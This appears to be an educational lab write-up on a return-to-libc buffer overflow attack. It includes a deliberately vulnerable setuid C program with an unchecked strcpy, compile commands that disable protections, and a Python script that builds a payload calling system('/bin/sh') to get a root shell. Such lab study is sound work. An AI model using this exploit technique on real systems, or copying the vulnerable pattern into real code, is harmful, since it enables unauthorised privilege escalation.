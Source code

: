 ```yaml
---
title: "Return-to-libc Attack"
date: 2021-02-01T18:49:41+08:00
draft: false
---
```


To prevent buffer overflow attacks, some operating systems allow the programs to make their stacks non-executable, which means if we jump to the stack and run the shellcode, we will fail. The goal of the following experiments is to utilize the variant of buffer overflow attack -- return-to-libc attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0
3. Create a symbolic link from "/bin/zsh" to "/bin/sh" since /bin/dash in most Ubuntu systems prevents itself from being executed in a Set-UID process 
4. Disable ASLR and Stackguard protection, but make the stack non-executable (our purpose of the experiment)



## Vulnerable program 

Here is a vulnerable program called retlib.c. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int bof(char* str)
{
	char buffer[12]; 
	unsigned int* framep; 

	asm("movl %%ebp, %0" : "=r" (framep)); 

	printf("ebp value = 0x%.8x\n", (unsigned)framep); 
	printf("buffer address = 0x%.8x\n", (unsigned)buffer); 

	strcpy(buffer, str); 		// buffer overflow
	return 1; 
}

int main(int argc, char** argv)
{
	char input[100]; 
	FILE* badfile; 

	badfile = fopen("badfile", "r"); 
	int len = fread(input, sizeof(char), 100, badfile); 
	printf("input size = %d", len); 

	bof(input); 
	printf("return properly\n"); 

	return 1; 
}
```

Disable ASLR and Stackguard protection, and compile the program into the 32-bit executable. Note that we need to make the stack non-executable, so compile with the flag "-z noexecstack" as follows:

```
$ gcc -m32 -fno-stack-protector -z noexecstack retlib.c -o retlib
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```



## Idea

The idea of the return-to-libc attack is to jump into a function in the library (for example, libc) without running the instruction located in the stack. To get the root privilege of the shell, our goal is to invoke system("/bin/sh"). So the first thing is to find out where is the function system(). We can use gdb debugger to print out the address of the system() as follows. 

![](https://github.com/chuang76/image/blob/master/ch3-13.PNG?raw=true)

Next, we need to figure out where is the string "/bin/sh". One method is to use an environment variable. The reason is that when we execute a program from a shell prompt, the shell actually fork itself and creates a child process to run the program. All the exported environment variables will be *inherited* by the child process. So we can export a self-defined environment variable called "my_shell" which value equals to "/bin/sh" and use a simple program called "prtenv.c" to print out the address. 

```
#include <stdio.h>
#include <stdlib.h>

void main()
{
	char* shell = getenv("my_shell"); 
	if (shell)
		printf("shell = %s, address = 0x%x\n", shell, (unsigned int)shell);
}
```

Compile the program and export the environment variable "my_shell". 

```
$ export my_shell="/bin/sh"
$ gcc -m32 prtenv.c -o prtenv
$ gcc -m32 prtenv.c -o prtaaa
$ gcc -m32 prtenv.c -o prtaaaaa
$ gcc -m32 prtenv.c -g -o prtenv_dbg
```

Here is the result. However, the address of the environment variable is sensitive to the length of the file name. Why? Let's use the debugger to figure out. 

![](https://github.com/chuang76/image/blob/master/ch3-14.PNG?raw=true)

Set a breakpoint at main function and run the program. We can find the address of environment variable with a pointer to pointer [environ](https://man7.org/linux/man-pages/man7/environ.7.html), which points to an array of pointers to strings called the "environment". As you can see, environment variables are located in the stack section. Before environment variables are pushed into the stack, the file name of the program is pushed first. So that's why the address of the environment variable may be affected by the length of the file name. 

```
(gdb) x/100s *((char **)environ)
```

![](https://github.com/chuang76/image/blob/master/ch3-15.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-16.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-17.PNG?raw=true)



## Exploit

Run the vulnerable program to find out where should we put the address of system(). That is, the value of ebp - the address of buffer + the size of ebp register =  0xffffd4d8 - 0xffffd4c0 + 4 = 28. So our crafted stack frame should looks like this:

![](https://github.com/chuang76/image/blob/master/ch3-19.PNG?raw=true)

Here is our payload: replace the return address of strcmp()'s frame as the address of system() and put the argument of system(), i.e., the address of the string "/bin/sh". Note that it is necessary to fill the return address of system()'s frame with the address of exit(), or the program will crash. 

```
#!/usr/bin/python3

import sys 

content = bytearray(0xaa for i in range(100))

shell_addr = 0xffffdf73
system_addr = 0xf7e13420
exit_addr = 0xf7e05f80 

content[28:32] = (system_addr).to_bytes(4, byteorder='little')
content[32:36] = (exit_addr).to_bytes(4, byteorder='little')
content[36:40] = (shell_addr).to_bytes(4, byteorder='little')

with open("badfile", "wb") as f:
    f.write(content)
```

So we can get the root privilege of the shell. 

![](https://github.com/chuang76/image/blob/master/ch3-18.PNG?raw=true)



## Reference

1. Programs, Processes and Memory [[link]](https://www.usna.edu/Users/cs/wcbrown/courses/IC221/classes/L08/Class.html)